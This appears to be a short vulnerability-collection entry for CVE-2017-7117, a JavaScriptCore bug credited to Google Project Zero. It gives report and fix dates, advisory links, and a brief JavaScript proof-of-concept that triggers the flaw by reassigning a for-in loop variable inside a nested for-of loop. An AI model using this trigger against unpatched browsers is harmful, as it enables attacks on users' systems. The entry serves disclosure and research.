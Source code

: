 # CVE-2017-7117

- Report: Jul 2017
- Fix: Sep 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
function f() {
    let o = {};
    for (let i in {xx: 0}) {
        for (i of [0]) {

        }

        print(o[i]);
    }
}

f();
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT208116)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1319)
